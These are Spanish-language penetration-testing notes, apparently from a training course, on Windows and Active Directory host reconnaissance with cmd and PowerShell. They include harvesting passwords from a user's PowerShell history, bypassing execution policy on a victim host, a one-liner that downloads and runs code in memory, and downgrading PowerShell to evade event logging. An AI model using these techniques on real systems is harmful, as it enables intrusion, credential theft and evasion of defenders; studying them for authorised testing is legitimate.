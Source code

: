 -----
- Tags: #Dsquery #ActiveDirectoryPowerShell #waf 
-------
## Comandos Env para reconocimiento de red y host

Primero, cubriremos algunos comandos ambientales básicos que pueden usarse para brindarnos más información sobre el host en el que estamos.
#### Comandos básicos de enumeración

|**Dominio**|**Resultado**|
|---|---|
|`hostname`|Imprime el nombre de la PC|
|`[System.Environment]::OSVersion.Version`|Imprime la versión del sistema operativo y el nivel de revisión.|
|`wmic qfe get Caption,Description,HotFixID,InstalledOn`|Imprime los parches y revisiones aplicados al host.|
|`ipconfig /all`|Imprime el estado y las configuraciones del adaptador de red.|
|`set`|Muestra una lista de variables de entorno para la sesión actual (ejecutada desde el símbolo CMD)|
|`echo %USERDOMAIN%`|Muestra el nombre de dominio al que pertenece el host (ejecutado desde el símbolo CMD)|
|`echo %logonserver%`|Imprime el nombre del controlador de dominio con el que se registra el host (se ejecuta desde el símbolo CMD)|

## Aprovechar PowerShell

PowerShell existe desde 2006 y proporciona a los administradores de sistemas Windows un marco extenso para administrar todas las facetas de los sistemas Windows y entornos AD. Es un lenguaje de programación potente y puede utilizarse para profundizar en los sistemas. PowerShell tiene muchas funciones y módulos integrados que podemos usar en un compromiso para reconocer el host y la red y enviar y recibir archivos.

Veamos algunas de las formas en que PowerShell puede ayudarnos.

|**cmd-dejar**|**Descripción**|
|---|---|
|`Get-Module`|Enumera los módulos disponibles cargados para su uso.|
|`Get-ExecutionPolicy -List`|Imprimirá la configuración [de la política de ejecución](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_execution_policies?view=powershell-7.2) para cada alcance en un host.|
|`Set-ExecutionPolicy Bypass -Scope Process`|Esto cambiará la política de nuestro proceso actual utilizando el `-Scope`parámetro. Al hacerlo, se revertirá la política una vez que abandonemos el proceso o lo finalicemos. Esto es ideal porque no realizaremos un cambio permanente en el host de la víctima.|
|`Get-Content C:\Users\<USERNAME>\AppData\Roaming\Microsoft\Windows\Powershell\PSReadline\ConsoleHost_history.txt`|Con esta cadena, podemos obtener el historial de PowerShell del usuario especificado. Esto puede resultar muy útil ya que el historial de comandos puede contener contraseñas o indicarnos archivos de configuración o scripts que contengan contraseñas.|
|`Get-ChildItem Env: \| ft Key,Value`|Devuelve valores del entorno como rutas clave, usuarios, información de la computadora, etc.|
|`powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('URL to download the file from'); <follow-on commands>"`|Esta es una forma rápida y sencilla de descargar un archivo de la web usando PowerShell y llamarlo desde la memoria.

Muchos defensores desconocen que a menudo existen varias versiones de PowerShell en un host. Si no se desinstalan, aún se pueden utilizar. El registro de eventos de Powershell se introdujo como una característica con Powershell 3.0 y posteriores. Con eso en mente, podemos intentar llamar a Powershell versión 2.0 o anterior. Si tiene éxito, nuestras acciones desde el shell no se registrarán en el Visor de eventos. Esta es una excelente manera de permanecer fuera del radar de los defensores y al mismo tiempo utilizar los recursos integrados en los anfitriones para nuestro beneficio. A continuación se muestra un ejemplo de cómo degradar Powershell.
